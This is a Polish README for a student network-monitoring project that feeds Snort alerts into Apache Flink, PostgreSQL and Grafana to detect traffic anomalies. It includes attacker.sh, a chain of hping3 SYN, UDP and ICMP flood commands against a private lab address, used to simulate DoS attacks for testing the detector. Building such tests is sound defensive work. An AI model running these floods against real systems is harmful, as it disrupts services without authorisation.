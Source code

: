 # O projekcie
Tematem projektu jest system monitorowania ruchu sieciowego.
W ramach projektu utworzono architekturę zgodna z poniższym schematem
![schemat](doc/figures/schemat.png)
## Budowa mechanizmu generowania ruchu 
W ramach realizacji mechanizmów generowania ruchu sieciowego 
stworzono scenariusz ataków DoS w trakcie normalnego używania sieci.
Skrypty załączono w plikach: attacker.sh, normal.sh <br/>
Attacker.sh:
```bash
#!/bin/bash
hping3 -i u100000 -S -c 3000 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 -2 192.168.248.2 &&
hping3 -i u10000 -S -c 30000 -p 80 -1 192.168.248.2 &&
hping3 -i u10000 -S -c 30000 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 -2 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 -1 192.168.248.2 &&
hping3 -i u10000 -S -c 30000 -p 80 192.168.248.2 &&
hping3 -i u5000 -S -c 24000 -p 80 192.168.248.2 &&
hping3 -i u8000 -S -c 22500 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 -2 192.168.248.2 &&
hping3 -i u10000 -S -c 30000 -p 80 192.168.248.2 &&
hping3 -i u5000 -S -c 60000 -p 80 -1 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 192.168.248.2 ;
```
Normal.sh:
```bash
#!/bin/bash
hping3 -i u125000 -S -c 2400 -p 80 192.168.248.2 &&
hping3 -i u80000 -S -c 3750 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 -1 192.168.248.2 &&
hping3 -i u80000 -S -c 3750 -p 80  192.168.248.2 &&
hping3 -i u125000 -S -c 2400 -p 80 -2 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 192.168.248.2 &&
hping3 -i u64000 -S -c 9375 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 6000 -p 80 -1 192.168.248.2 &&
hping3 -i u64000 -S -c 4688 -p 80 192.168.248.2 &&
hping3 -i u100000 -S -c 3000 -p 80 192.168.248.2 ;
```
## Analiza ruchu
Analiza ruchu odbywala się z wykorzystaniem mechanizmów dostepnych w Apache Flink
(Watermark, windows, WindowsFunction).
### Odczytywanie logow systemu Snort
Logi systemu snorta odczytywano z pliku alert.csv
### Analizowane wielkosci
Analizowany była liczba pakietów na sekunde, grupowana po ich źródle, porcie docelowym,
czy po rodzaju protokołu
### Wykrywane anomalie
Wykrywano nagły wzorst liczby pakietów
(tj. gdy ruch wzrósł n-krotnie w stosunku do poprzedniego okna czasowego)
oraz gdy liczba pakietów przekraczała zdefiniowany limit. 

### Zapis danych
Zapis danych odbywa się do tabeli PostgreSQL.

## Srodowisko prezentacji danych
W ramach prezentacji danych wybrano środowisko Grafana. Poniżej
przedstawiono wykres uzyskany w tym środowisku. 
![Wykres ruchu](doc/figures/alarmTypelin.PNG)

# Konfiguracja
W celu konfiguracji projektu zależy zadbać o odtworzenie
architektury rozwiązania. 
Dodatkowo samo uruchomienie projektu (przy założeniu posiadania odpowiedniego
pliku z logami) wymagać będzie:
* Java 8 lub Java 11
* [Apache Flink](https://nightlies.apache.org/flink/flink-docs-release-1.14/docs/try-flink/local_installation/)
* [Maven](https://maven.apache.org/guides/getting-started/maven-in-five-minutes.html)

Dodatkowo nalezy zadbać o skonfigurowanie bazy PostgreSQL.
Przy założeniu posiadaniu odpowiednich dependencji uruchamianie aplikacji Flinka
odbywa się zgodnie z [instrukcją](https://nightlies.apache.org/flink/flink-docs-release-1.14/docs/try-flink/local_installation/#starting-and-stopping-a-local-cluster)

# Autorzy
Arkadiusz Rybski <br>
Krystian Szewczak
